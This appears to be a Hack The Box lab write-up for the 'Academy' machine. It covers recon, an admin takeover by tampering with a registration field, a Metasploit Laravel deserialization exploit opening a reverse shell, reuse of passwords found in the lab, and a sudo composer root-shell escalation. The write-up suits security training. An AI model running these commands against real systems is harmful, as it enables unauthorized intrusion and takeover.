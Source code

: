 ```yaml
---
layout: post
title:  "Hack The Box - Academy Writeup"
date:   2021-02-27 06:00:00
image: 
  path: /assets/img/htb/HTB-Academy/Header.png
author: Ryan
---
```


- Table of Contents
{:toc .large-only}

*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  

Academy is an Easy level linux machine. Based on the creator and community statistics, we'll likely have a decent amount of enumeration to get through, while working heavily off of existing CVEs, against a realistic environment.  
![Statistics](/assets/img/htb/HTB-Academy/Statistics.png)

## Information Gathering

### Nmap
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -p22,80,33060 -sC -sV -oA Extracts/Academy 10.10.10.215`  
![Nmap](/assets/img/htb/HTB-Academy/nmap.png)

* **Port 22 - SSH**: Pretty standard port to see open on linux boxes, we can try to leverage this later on if we find credentials or private key.
* **Port 80 - HTTP**: A basic websever hosting what appears to be an simple website on Apache v2.4.41.
* **Port 33060 - MYSQLX**: MySQL is a freely available open source Relational Database Management System. The X Protocol found here is supported by MySQL Shell, MySQL Connectors, and MySQL Router.

We'll also want to add Academy.htb to our hosts file.

### Academy Site
Navigating to the Academy site on port 80 reveals a very basic landing page and two links to Login.php and Register.php. We can attempt to enumerate additional pages using `gobuster` and a wordlist of commonly used resources.  
`>> gobuster dir -u academy.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php -t 100`  
![Gobuster](/assets/img/htb/HTB-Academy/Recon_Gobuster.png)  

The most promising result of the Gobuster scan is the discovery of an administrative area. Unfortunately, it appears to be behind a login. Let's move on to registering an account and see what we can find once we're authenticated.  
![Register](/assets/img/htb/HTB-Academy/Recon_Register.png)  

Interesting. Capturing the registration request with our `Burpsuite` proxy reveals that in addition to our username and password, there's a `roleid` defaulting to 0. It's possible this flag could differentiate a normal user from an admin, let's change that to a 1?  
![Admin](/assets/img/htb/HTB-Academy/Recon_Admin.png)  

Looks like we were right about the `roleid` and successfully created our own administrative account! Logging into the /admin.php page reveals some usernames (`cry0l1t3` and `mrb3n`), as well as another subdomain `dev-staging-01.academy.htb`. Let's add that to our host file and go there next.

### Dev-Staging-01
Navigating to the dev-staging area, we're shown a dashboard with a large amount of system configuration and application information. There's a lot to dig through, but we should be able to find something interesting to work with.  
![Admin](/assets/img/htb/HTB-Academy/Recon_DevStage.png)

## Foothold
[Laravel](https://laravel.com/) is a framework for building web applications in PHP. Searching Exploit.db leads us to the following [metasploit module](https://www.exploit-db.com/exploits/47129), for a deserialization attack leveraging the App_Key and gaining remote code execution. Based on the configuration findings in our Information Gathering stage, we should have all the pieces needed to make this work.  
```
>> msfconsole
>> use exploit/unix/http/laravel_token_unserialize_exec
>> set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
>> set RHOSTS academy.htb
>> set VHOST dev-staging-01.academy.htb
>> set LHOST tun0
```
![Reverse Shell](/assets/img/htb/HTB-Academy/Foothold_MSFConsole.png)  

### Upgrading our Shell
The initial shell we've got is clunky and not very easy to use. Let's upgrade it with the following commands:  
`>> python3 -c "import pty; pty.spawn('/bin/bash')"`  
`>> export TERM=xterm`

### Looking Around the Box
We appear to be connected as the www-data user, which doesnt have access to the user.txt flag. By checking through the users in the `/home` directory, we can see the flag belongs to `cry0l1t3`, an admin of the site.

## Lateral Movement 1
When we first landed in the box, we found ourself in the `/var/www/html/htb-academy-dev-01/public` directory. Digging around, we eventually find a hidden `.env` file containing much of the same information we already noted in the website. However, by looking in the equivalent file from the `/var/www/html/academy` directory, we discover a few changes; The most important of which is that the database password has been changed to `mySup3rP4s5w0rd!!`.

When users are asked to create a new password for something, it's very common for them to reuse a password from somewhere else. It's familiar to them, and easier to remember. Keeping that in mind, we attempt to authenticate with each of the users we discovered in the `/home` directory, successfully authenticating with our flag holder `cry0l1t3`.  
`>> ssh cry0l1t3@10.10.10.215`  
`>> mySup3rP4s5w0rd!!`

### User Flag
![User Flag](/assets/img/htb/HTB-Academy/User_Flag.png)  

## Lateral Movement 2
With our new user access we can continue to look around the box, checking areas we may not have had access to before. Whether running an automated enumeration script, or by digging through the box manually, we can eventually be led to system logs with more valuable secrets to use.  
`>> ausearch -c su`  
![Logs](/assets/img/htb/HTB-Academy/Lateral2_Logs.png)  

The data we found is currently in hex format, but decoding it reveals the text: `mrb3n_Ac@d3my!`. Lets see if it works for the mrb3n account:  
`>> su mrb3n`  
`>> mrb3n_Ac@d3my!`

## Privilege Escalation
One of the first enumeration commands to run as a new user is `sudo -l`. This allows us to list out the priviledged commands we can run, as long as we have the user's password.  
`>> sudo -l`  
`>> mrb3n_Ac@d3my!`  
![Sudo](/assets/img/htb/HTB-Academy/PrivEsc_Sudo.png)  

Referencing the [GTFOBins](https://gtfobins.github.io/gtfobins/composer/#sudo) page for Composer, we're shown the following escilation steps:  
`>> TF=$(mktemp -d)`  
`>> echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json`  
`>> sudo composer --working-dir=$TF run-script x`  

### Root Flag
![Root Flag](/assets/img/htb/HTB-Academy/Root_Flag.png)  